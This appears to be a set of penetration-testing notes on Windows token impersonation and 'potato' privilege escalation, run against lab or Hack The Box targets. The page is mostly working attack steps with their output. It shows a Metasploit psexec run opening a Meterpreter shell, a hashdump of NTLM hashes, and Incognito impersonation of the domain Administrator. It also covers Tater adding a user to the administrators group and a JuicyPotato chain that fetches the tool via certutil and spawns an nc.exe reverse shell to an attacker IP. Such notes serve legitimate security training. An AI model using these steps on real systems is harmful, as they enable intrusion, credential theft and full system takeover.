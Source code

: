 # Token Impersonation - Potato attacks

## What is it

- Token are temp keys that give access to a system or network without credentials.

## How to

- Launch Metasploit `msfconsole`
- Choose the exploit: `use exploit/windows/smb/psexec`
- Set: rhosts, smbdomain, smbpass, smbuser, target (we can use `show targets` to have a list), payload
- Launch the attack: `run`
- We get a shell:
  ```
  msf6 exploit(windows/smb/psexec) > run

  [*] Started reverse TCP handler on 10.0.2.8:4444 
  [*] 10.0.2.15:445 - Connecting to the server...
  [*] 10.0.2.15:445 - Authenticating to 10.0.2.15:445|marvel.local as user 'fcastle'...
  [!] 10.0.2.15:445 - peer_native_os is only available with SMB1 (current version: SMB3)
  [*] 10.0.2.15:445 - Uploading payload... oeyrkyrs.exe
  [*] 10.0.2.15:445 - Created \oeyrkyrs.exe...
  [*] Sending stage (200262 bytes) to 10.0.2.15
  [+] 10.0.2.15:445 - Service started successfully...
  [*] 10.0.2.15:445 - Deleting \oeyrkyrs.exe...
  [*] Meterpreter session 1 opened (10.0.2.8:4444 -> 10.0.2.15:61871 ) at 2022-02-11 13:49:12 -0500

  meterpreter > 
  ```
- Getting hashes: `hashdump`
  ```
  meterpreter > hashdump
  Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  Frank Castle:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:e6cedee56d27d175f48042b53cb6b242:::
  ```
- Use tools: `load` (double tab to get the list of tools)
- `load incognito`
  ```
  Incognito Commands
  ==================

      Command              Description
      -------              -----------
      add_group_user       Attempt to add a user to a global group with all tokens
      add_localgroup_user  Attempt to add a user to a local group with all tokens
      add_user             Attempt to add a user with all tokens
      impersonate_token    Impersonate specified token
      list_tokens          List tokens available under current user context
      snarf_hashes         Snarf challenge/response hashes for every token
  ```
- list_tokens -u
  ```
  meterpreter > list_tokens -u

  Delegation Tokens Available
  ========================================
  Font Driver Host\UMFD-0
  Font Driver Host\UMFD-1
  Font Driver Host\UMFD-2
  MARVEL\Administrator
  MARVEL\fcastle
  NT AUTHORITY\LOCAL SERVICE
  NT AUTHORITY\NETWORK SERVICE
  NT AUTHORITY\SYSTEM
  Window Manager\DWM-1
  Window Manager\DWM-2

  Impersonation Tokens Available
  ========================================
  No tokens available
  ```
- Impersonate Administrator: 
  ```
  meterpreter > impersonate_token marvel\\administrator
  [+] Delegation token available
  [+] Successfully impersonated user MARVEL\Administrator
  meterpreter > shell
  Process 8576 created.
  Channel 1 created.
  Microsoft Windows [Version 10.0.19044.1288]
  (c) Microsoft Corporation. All rights reserved.
  C:\Windows\system32>whoami
  whoami
  marvel\administrator
  ```
- If we hashdump again it will not work so we can rev2self to get back to the initial user
- Any user that has logged in the target will have a token there until the target reboots

## Potato Attacks

### Hot potato

- We can use [Tater](https://github.com/Kevin-Robertson/Tater)
- `powershell.exe -nop -ep bypass`
- `Import-Module Tater.ps1`
- `Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"`
- Your user should be in the administrators group `net localgroup administrators` to check

- See [here](../writeups/HTB-Jeeves.md) an example of a potato attack

### Juicy potato

#### Enumeration after initial shell with MSSQL

- Say we have a shell on an mssql instance `mssqlclient.py sql_dev@IP-ADD -windows-auth`
- We can enable command shell using `enable_xp_cmdshell`
- And then we will be able to type every command we need this way: `xp_cmdshell whoami /priv`
- For juicy potato we need to check if we have `SeImpersonatePrivilege` enabled  
![image](https://user-images.githubusercontent.com/96747355/163688651-8f07b5f6-4b0d-4ece-bb80-8249770d3b29.png)  
- We do!

#### Exploitation

- Let's get JuicyPotato binary in our attacking machine `wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe`
- Let's serve the file to our target using python http server `python3 -m http.server 80`
- Let's take it in our shell using certutil `xp_cmdshell certutil.exe -urlcache -f http://10.10.14.117/JuicyPotato.exe C:\Tools\JuicyPotato.exe`
- Let's get an admin shell `xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.117 8443 -e cmd.exe" -t *` where -l is the COM server listening port, -p is the program to launch (cmd.exe), -a is the argument passed to cmd.exe, and -t is the createprocess call. We are trying both the CreateProcessWithTokenW and CreateProcessAsUser functions, which need SeImpersonate or SeAssignPrimaryToken privileges respectively.
- And we should have an authority system shell  
![image](https://user-images.githubusercontent.com/96747355/163689119-b9682c58-c8cc-421b-9d62-1e2d7451f525.png)  

## Resources

{% embed url="https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/" %} Rotten Potato - Foxglove Security {% endembed %}  
{% embed url="https://github.com/ohpe/juicy-potato" %} Juicy Potato {% endembed %}  
{% embed url="https://academy.tcm-sec.com/p/windows-privilege-escalation-for-beginners" %} TCM Security - Windows privilege escalation {% endembed %}  
